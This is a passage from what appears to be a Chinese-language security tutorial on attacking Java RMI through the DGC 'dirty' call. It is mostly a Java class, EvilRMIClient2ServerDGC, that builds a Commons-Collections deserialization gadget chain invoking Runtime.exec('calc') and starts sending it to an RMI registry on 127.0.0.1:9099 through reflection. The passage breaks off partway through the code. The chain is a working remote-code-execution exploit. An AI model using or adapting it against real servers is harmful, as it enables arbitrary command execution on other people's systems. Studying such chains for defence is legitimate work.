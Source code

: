 - 获取`RemoteService`，从中拿到服务端的地址和端口
- 获取`DGCImpl_Skel`对应的`ObjID`，创建`UnicaseRef`对象，并通过`DGCImpl_Stub`发起`dirty`调用

完整代码如下
```java
public class EvilRMIClient2ServerDGC {

    public Object create() throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, new Object[]{"calc"})
        });

        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap(), chainedTransformer);

        Constructor annotationInvocationHandler =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").
                        getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationHandler.setAccessible(true);
        InvocationHandler annoHandler = (InvocationHandler) annotationInvocationHandler.
                newInstance(Override.class, lazyMap);

        Map map = (Map) Proxy.
                newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annoHandler);

        InvocationHandler anotherHandler = (InvocationHandler) annotationInvocationHandler.
                newInstance(Override.class, map);

        return anotherHandler;
    }

    public RemoteService getRemoteService(String name) throws RemoteException {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 9099);
        try {
            Field ref = registry.getClass().getSuperclass().getSuperclass().getDeclaredField("ref");
            Field operations = registry.getClass().getDeclaredField("operations");
            Field interfaceHash = registry.getClass().getDeclaredField("interfaceHash");

            ref.setAccessible(true);
            operations.setAccessible(true);
            interfaceHash.setAccessible(true);
            RemoteRef refs = (RemoteRef) ref.get(registry);

            Method newCall = refs.getClass().getDeclaredMethod("newCall", RemoteObject.class, Operation[].class, int.class, long.class);
            Method invoke = refs.getClass().getDeclaredMethod("invoke", RemoteCall.class);

            StreamRemoteCall call = (StreamRemoteCall)newCall.invoke(refs, registry, operations.get(registry), 2, interfaceHash.get(registry));
            ObjectOutput out = call.getOutputStream();
            out.writeObject(name);

            invoke.invoke(refs, call);

```